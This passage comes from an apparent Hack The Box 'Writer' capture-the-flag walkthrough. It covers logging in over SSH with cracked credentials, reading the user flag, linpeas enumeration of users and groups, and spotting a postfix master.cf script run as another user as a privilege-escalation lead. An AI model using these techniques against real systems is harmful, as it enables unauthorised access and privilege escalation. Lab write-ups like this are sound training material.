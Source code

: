 ----------------------------------------------------------------

### Step 6

6. Login with cracked creds (kyle:marcoantonio) and grab user.txt

```bash
$ ssh kyle@writer.htb
kyle@writer:~$ id && hostname
  uid=1000(kyle) gid=1000(kyle) groups=1000(kyle),997(filter),1002(smbgroup)
  writer
kyle@writer:~$ cat user.txt
  b20af09f4741426d488658c2d7319527
```

----------------------------------------------------------------

# ROOT

### Step 1

As usual check `sudo -l`, which is not available for user kyle.
Running linpeas we find a few interesting things:

```bash
Users with console:
filter:x:997:997:Postfix Filters:/var/spool/filter:/bin/sh
john:x:1001:1001:,,,:/home/john:/bin/bash
kyle:x:1000:1000:Kyle Travis:/home/kyle:/bin/bash

User Groups:
uid=1000(kyle) gid=1000(kyle) groups=1000(kyle),997(filter),1002(smbgroup)
uid=1001(john) gid=1001(john) groups=1001(john),1003(management)
uid=997(filter) gid=997(filter) groups=997(filter)
```

User `kyle` is in group `filter`, and `filter` is in control of `postfix`.
Linpeas also shows us that `/etc/postfix/master.cf` is present and contains scripts to be executed, hinting that this should probably be used to pivot or get root access.

```bash
-rw-r--r-- 1 root root 6373 Sep 10 13:18 /etc/postfix/master.cf
  flags=DRhu user=vmail argv=/usr/bin/maildrop -d ${recipient}
#  user=cyrus argv=/cyrus/bin/deliver -e -r ${sender} -m ${extension} ${user}
#  flags=R user=cyrus argv=/cyrus/bin/deliver -e -m ${extension} ${user}
  flags=Fqhu user=uucp argv=uux -r -n -z -a$sender - $nexthop!rmail ($recipient)
  flags=F user=ftn argv=/usr/lib/ifmail/ifmail -r $nexthop ($recipient)
  flags=Fq. user=bsmtp argv=/usr/lib/bsmtp/bsmtp -t$nexthop -f$sender $recipient
  flags=R user=scalemail argv=/usr/lib/scalemail/bin/scalemail-store ${nexthop} ${user} ${extension}
  flags=FR user=list argv=/usr/lib/mailman/bin/postfix-to-mailman.py
  flags=Rq user=john argv=/etc/postfix/disclaimer -f ${sender} -- ${recipient}
```
